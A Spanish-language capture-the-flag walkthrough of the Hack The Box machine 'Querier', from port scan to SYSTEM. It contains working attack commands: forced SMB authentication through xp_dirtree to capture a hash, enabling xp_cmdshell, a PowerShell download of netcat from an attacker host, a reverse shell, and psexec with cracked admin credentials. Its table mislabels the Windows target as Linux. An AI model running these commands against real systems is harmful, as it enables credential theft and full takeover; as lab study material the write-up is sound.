


Hack The Box - Querier

| Nombre | Querier |
|---|---|
| OS | Linux |
| Puntos | 30 |
| Dificultad | Medio |
| IP | 10.10.10.125 |
| Maker | mrh4sh & egre55 |
MASSCAN
Utilizando la herramienta masscan para hacer un escaneo rapido de todos los puertos en tcp y udp
masscan -p1-65535,U:1-65535 10.10.10.125 --rate=1000 -e tun0
Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-19 05:54:40 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49665/tcp on 10.10.10.125
Discovered open port 49666/tcp on 10.10.10.125
Discovered open port 49670/tcp on 10.10.10.125
Discovered open port 47001/tcp on 10.10.10.125
Discovered open port 135/tcp on 10.10.10.125
Discovered open port 49664/tcp on 10.10.10.125
Discovered open port 5985/tcp on 10.10.10.125
Discovered open port 49668/tcp on 10.10.10.125
Discovered open port 49671/tcp on 10.10.10.125
Discovered open port 139/tcp on 10.10.10.125

HTTP
Al realizar una busqueda de archivos y directorios en el puerto 5985 no encontramos nada.

SMBCLIENT
Enumerando SHARENAMES con smbclient encontramos Reports e intentamos conectarnos.
smbclient -L 10.10.10.125
Enter WORKGROUP\root's password:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
Reports Disk
Dentro de Reports econtramos un archivo xlsm el cual no contiene nada
smbclient \\\\10.10.10.125\\Reports
'Currency Volume Report.xlsm'
Binwalk

Al utilizar BinWalk para analizar el archivo en busqueda de archivos ocultos encontramos dentro del archivo un macro con el siguiente codigo:
Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
' macro to pull data for client volume reports
'
' further testing required
Private Sub Connect()
Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset
Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open
If conn.State = adStateOpen Then
' MsgBox "connection successful"
'Set rs = conn.Execute("SELECT * @@version;")
Set rs = conn.Execute("SELECT * FROM volume;")
Sheets(1).Range("A1").CopyFromRecordset rs
rs.Close
End If
End Sub
MICROSOFT SQL SERVER
Ya que tenemos credenciales para la base de datos procedemos a utilizar mssqlclient.py el cual es un script que funciona para conectarnos a una base de datos utilizando autenticacion de windows. Ya dentro encontramos bases de datos que son por “default” en Microsoft SQL Server.
python mssqlclient.py -p 1433 -windows-auth -debug reporting:'PcwTWTHRwryjc$c6'@10.10.10.125
SQL> SELECT name FROM master.dbo.sysdatabases
name
--------------------------------------------------------------------------------------------------------------------------------
master
tempdb
model
msdb
volume
MSSQL BOO
Enumerando las diferentes bases de datos no encontramos ningun tipo de usuario y contraseña que nos pudiesen ayudar para conectarnos con otro usuario, asi mismo la ejecucion de comandos no esta permitida para nuestro usuario reporting. Pero el usuario si esta permitido para ejecutar xp_fileexist y xp_dirtree, por lo que aprovechando estos podemos hacer Out-of-Band. Se utilizo smbserver.py de forma local para crear un servidor samba y con mssqlclient.py se ejecuto el comando para hacer una ‘consulta’ hacia nuestra maquina y asi obtener las contraseñas.
exec master..xp_fileexist '\10.10.12.75\pwn' -- -
declare @q varchar(99);set @q='\\10.10.14.23\test';exec master.dbo.xp_dirtree @q HTTP/1.1
LOCAL
python smbserver.py -smb2support -port 445 -ip 10.10.12.220 Me /tmp/me
REMOTE
EXEC MASTER.sys.xp_dirtree '\\10.10.12.220\Me', 1, 1
CAPTURE MSSQL CREDENTIALS WITH SMBSERVER

Hashcat
Utilizamos hashcat para desencriptar.
./hashcat64.bin -m 5600 -o querier.txt ntlm.txt ../rockyou.txt
mssql-svc::QUERIER:4141414141414141:8ef8d7fe8b397a3f34c6a0c4117ea619:010100000000000080f39672a1c9d401d5aeaac9f68f78d8000000000100100059004200680076004d007a006c005100020010004f007900530049004f00570045004c000300100059004200680076004d007a006c005100040010004f007900530049004f00570045004c000700080080f39672a1c9d4010600040002000000080030003000000000000000000000000030000042faac07e9e6916b7b486a8189925f3a6881014abed60765f5683d0f0e8104bf0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310032002e00320032003000000000000000000000000000
DECRYPTED
MSSQL-SVC::QUERIER:4141414141414141:8ef8d7fe8b397a3f34c6a0c4117ea619:010100000000000080f39672a1c9d401d5aeaac9f68f78d8000000000100100059004200680076004d007a006c005100020010004f007900530049004f00570045004c000300100059004200680076004d007a006c005100040010004f007900530049004f00570045004c000700080080f39672a1c9d4010600040002000000080030003000000000000000000000000030000042faac07e9e6916b7b486a8189925f3a6881014abed60765f5683d0f0e8104bf0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310032002e00320032003000000000000000000000000000:corporate568
USER - FLAG
python mssqlclient.py -p 1433 -windows-auth -debug MSSQL-SVC:'corporate568'@10.10.10.125
Ya que obtuvimos usuario y contraseña de podemos utilizarlos y activar xp_cmdshell para ejecutar comando dentro de la computadora.
EXEC sp_configure 'show advanced options', 1; EXEC sp_configure reconfigure; EXEC sp_configure 'xp_cmdshell', 1;EXEC sp_configure reconfigure;
Ejecutando comandos, leyendo el flag user.txt.
EXEC master.dbo.xp_cmdshell 'more C:\Users\mssql-svc\Desktop\user.txt';
output
--------------------------------------
c37b41bb669da345bb14de50faab3c16
SHELL INVERSA - NETCAT
Utilizando powershell para descargar nc.exe (netcat) en la computadora.
EXEC master.dbo.xp_cmdshell 'powershell -command "& { iwr 10.10.12.33/nc.exe -OutFile C:\Users\mssql-svc\Desktop\nc.exe }"';
Utilizando nc.exe (netcat) para conectarnos de forma inversa a nuestro puerto local
EXEC master.dbo.xp_cmdshell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd 10.10.12.33 7878';
Local
nc -lvp 7878
PRIVILEGE ESCALATION
Estando dentro de la maquina como MSSQL-SVC procedemos a hacer una enumeracion con PowerUp el cual es un script escrito en powershell para enumerar los diferentes vectores de ataque para escalar privilegios en windows.
PowerUp
Descargamos, importamos PowerUp y hacemos una enumeracion de todas las funciones que contiene.
powershell -command "& { iwr 10.10.12.33/power.ps1 -OutFile C:\Users\mssql-svc\Desktop\power.ps1 }"
Import-Module .\power.ps1
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking for unquoted service paths...
[*] Checking service executable and argument permissions...
[*] Checking service permissions...
[*] Checking %PATH% for potentially hijackable DLL locations...
ModifiablePath : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH% : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
AbuseFunction : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...
[*] Checking for modifidable registry autoruns and configs...
[*] Checking for modifiable schtask files/configs...
[*] Checking for unattended install files...
UnattendPath : C:\Windows\Panther\Unattend.xml
[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
[*] Checking for plaintext passwords in McAfee SiteList.xml files....
[*] Checking for cached Group Policy Preferences .xml files....
Changed : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File : C:\ProgramData\Microsoft\Group
Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Al finalizar Nos encontramos que existe un archivo de Groups Policy que contiene un Usuario y Contraseña, en este caso el de Administrator. Utilizando el script psexec.py para conectarnos de manera remota con el Usuario Administrator y obtener una shell con nt authority\system.
python psexec.py -debug Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
root@sckull:~/impacket/examples# python psexec.py -debug Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies
[+] StringBinding ncacn_np:10.10.10.125[\pipe\svcctl]
[+] Your pycrypto doesn't support AES.MODE_CCM. Currently only pycrypto experimental supports this mode.
Download it from https://www.dlitz.net/software/pycrypto
[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file WsaCFcep.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service EOzc on 10.10.10.125.....
[*] Starting service EOzc.....
[+] Your pycrypto doesn't support AES.MODE_CCM. Currently only pycrypto experimental supports this mode.
Download it from https://www.dlitz.net/software/pycrypto
[!] Press help for extra shell commands
[+] Your pycrypto doesn't support AES.MODE_CCM. Currently only pycrypto experimental supports this mode.
Download it from https://www.dlitz.net/software/pycrypto
[+] Your pycrypto doesn't support AES.MODE_CCM. Currently only pycrypto experimental supports this mode.
Download it from https://www.dlitz.net/software/pycrypto
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ..
C:\Windows>cd C:\
C:\>cd Users\Administrator
C:\Users\Administrator>cd Desktop
C:\Users\Administrator\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is FE98-F373
Directory of C:\Users\Administrator\Desktop
01/29/2019 12:04 AM <DIR> .
01/29/2019 12:04 AM <DIR> ..
01/28/2019 12:08 AM 33 root.txt
1 File(s) 33 bytes
2 Dir(s) 5,970,571,264 bytes free
C:\Users\Administrator\Desktop>more root.txt
b19c3794f786a1fdcf205f81497c3592